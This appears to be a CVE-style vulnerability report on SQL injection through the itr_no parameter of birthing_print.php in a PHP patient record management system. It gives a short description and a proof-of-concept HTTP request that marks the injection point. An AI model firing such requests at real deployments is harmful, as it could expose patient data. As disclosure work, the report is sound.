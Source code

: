 # cve
# patient-record-management-system-in-php has sql injection in birthing_print.php

## supplier 

https://code-projects.org/patient-record-management-system-in-php-with-source-code/#google_vignette

## Vulnerability parameter

birthing_print.php

## describe

An unrestricted SQL injection attack exists in patient-record-management-system-in-php in birthing_print.php The parameters that can be controlled are as follows: $itr_no. This function executes the id parameter into the SQL statement without any restrictions. A malicious attacker could exploit this vulnerability to obtain sensitive information in the server database.

**Code analysis**    

When the value of $itr_no parameter is obtained in birthing_print.php , it will be concatenated into SQL statements and executed, which has a SQL injection vulnerability. 

![image-20250329163136731](sql75(未交).assets/image-20250329163136731.png)



## POC

```
GET /birthing_print.php?itr_no=1* HTTP/1.1
Host: healthcarepatientrecordmanagementsystem
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:136.0) Gecko/20100101 Firefox/136.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Connection: close
Cookie: PHPSESSID=apub8ggoc8777fmi1n9sbu6ca1
Upgrade-Insecure-Requests: 1
Priority: u=0, i


```

**Result**

![image-20241226013405312](https://github.com/user-attachments/assets/fd4a6d5f-7c7d-418d-8db1-2bbd2d5bc9a0)

## submiter

作者：殷丽华、程泓源；机构：广州大学
